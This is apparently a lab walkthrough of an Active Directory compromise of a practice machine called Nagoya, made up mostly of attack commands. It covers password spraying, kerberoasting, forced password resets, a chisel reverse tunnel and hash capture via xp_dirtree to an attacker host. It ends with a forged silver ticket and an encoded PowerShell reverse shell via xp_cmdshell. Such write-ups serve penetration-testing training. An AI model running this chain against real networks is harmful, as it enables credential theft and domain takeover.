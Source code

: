 ```
nxc smb 192.168.182.21 -u users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst
```
or 
```
hydra -L users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst -f rdp://nagoya-industries.com
```
![](../attachment/75975032d742053fbdb528efde4ba4a1.png)
Now we get the password.
![](../attachment/cf3abfccf0180496d1d4dc39c6d851d0.png)

Now kerberoasting:
```
GetUserSPNs.py nagoya-industries.com/Craig.Carr:Spring2023 -request
```
![](../attachment/bd544a2a8ecc31d7cf9057c9e3baccf2.png)
We can crack it with hashcat2![](../attachment/dcaad0d97f23e5d4c00ffcb2a72b3ebc.png)

Checking shares:
```
smbclient -L \\\\nagoya-industries.com\\ -U Craig.Carr%'Spring2023'
```
![](../attachment/2ef35128d4bf1e5e8c77cc50be4836ed.png)


![](../attachment/04a761f411c51e33be61506e12f20dd4.png)
We have ResetPassword.exe:
![](../attachment/ff64800c433ca61a0f089792b97e5ce6.png)
Using dnsPy we can decompile this .exe file and get password:
![](../attachment/b0d2db298ad8f3b8022a2924fcc32703.png)

Now we can verify:
```
nxc smb 192.168.162.21 -u svc_helpdesk -p U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```
![](../attachment/973a1ba0169874cdfdf3eb8be71910dd.png)

Now we can run bloodhound.py:
```
bloodhound.py -u 'svc_helpdesk' -p 'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg' -ns 192.168.162.21 -d nagoya-industries.com -c all --zip
```

![](../attachment/d3d6bf6c8bb8f20d217e1d0c49bbc305.png)
Only christopher is a member of Developers Group who are a member of the remote management users group which could be useful.

![](../attachment/57af415f5541e424be19058a9c897b11.png)

Now reset the password for Christopher.Lewis:
```
net rpc password "Christopher.Lewis" "Password123@" -U "nagoya-industries.com"/"svc_helpdesk"%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S nagoya-industries.com
```
Or 
```
rpcclient -U nagoya-industries/svc_helpdesk 192.168.162.21
setuserinfo2 Christopher.Lewis 23 Start123!
```

Now we have the password for Christopher.Lewis:
![](../attachment/7d1e77cbca95b10bc0fff037b33cffae.png)

Now we can login through wvil-winrm:
```
evil-winrm -i 192.168.162.21 -u Christopher.Lewis -p 'Password123@'
```
![](../attachment/de639725f34d841746f324cf20043ca1.png)

Now we can check the ports running:\
```
netstat -ano
```
![](../attachment/18f3345a752225475c32470193572d40.png)

There is a port 1433 running SQL prolly.
We have svc_mssql user which we have creds for so we can try port forwarding this port to our machine.

Using chisel:
```
.\chisel.exe client 192.168.45.196:8001 R:1433:127.0.0.1:1433
```
On our machine:
```
chisel server --reverse --socks5 -p 8001
```

Now getting access to mssql:
```
mssqlclient.py svc_mssql@localhost -windows-auth
```
![](../attachment/ffc790d643db249b78c5ea3e670dde14.png)
We are svc_mssql.

Now checking who's running the db:
```
exec xp_dirtree "\\192.168.45.196\share"
```
We can use responder to catch the user:
![](../attachment/80cdeaa02aece8858294671ab5c8b3e0.png)

We are running as a service user we can do [[Silver Ticket Attack]]:
```
ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com Administrator
```

Now checking the domain:
```
get-addomain
```
![](../attachment/0347ff8afed507a142794244ce9efe8c.png)

We can add this to our /etc/hosts file
```
127.0.0.1       localhost nagoya.nagoya-industries.com nagoya-industries.com
```
localhost due to port forwarding.

Now we can login with mssqclient kerberos authentication:
```
KRB5CCNAME=Administrator.ccache mssqlclient.py nagoya.nagoya-industries.com -k
```
![](../attachment/e5a69ed87d2e8e0ec6a19ba7eb6696fa.png)
We are Administrator.(Took many tries it showed as svc_mssql user first.)

Now we can execute commands:
```
xp_cmdshell powershell -e gBUAEMAUABDAGwAaQBlAG4AdAAoACIAEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Now we have a reverse shell:
![](../attachment/0eb92d405b506a1d7e0010e3c481a464.png)
We can use our method of godpotato.

